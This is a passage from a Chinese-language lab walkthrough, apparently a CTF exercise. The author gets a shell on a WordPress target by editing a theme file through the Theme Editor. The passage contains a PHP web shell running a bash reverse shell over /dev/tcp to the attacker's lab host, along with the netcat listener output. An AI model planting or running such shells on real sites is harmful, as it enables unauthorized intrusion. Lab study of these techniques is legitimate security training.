     ![image.png](image%2014.png)
    
    发现没有上传权限，即使设置关闭了以月份创建文件夹
    
2. 寻找别的地方上传shellcode
    
    在`Appearance`→`Theme Editor` →`secret.php` 找到了可编辑保存的文件
    
    我们将shellcode输进去
    
    ```php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.75.131/1234 0>&1'");?>
    ```
    
    然后`save` 
    
3. kali开启监听，并且访问
    
    ```php
    http://192.168.75.137/wordpress/wp-content/themes/twentynineteen/secret.php
    ```
    
    ```php
    nc -lvp 1234                          
    listening on [any] 1234 ...
    192.168.75.137: inverse host lookup failed: Unknown host
    connect to [192.168.75.131] from (UNKNOWN) [192.168.75.137] 42312
    bash: cannot set terminal process group (48712): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ 
    ```
    
    获得初级shell
    

## 提权

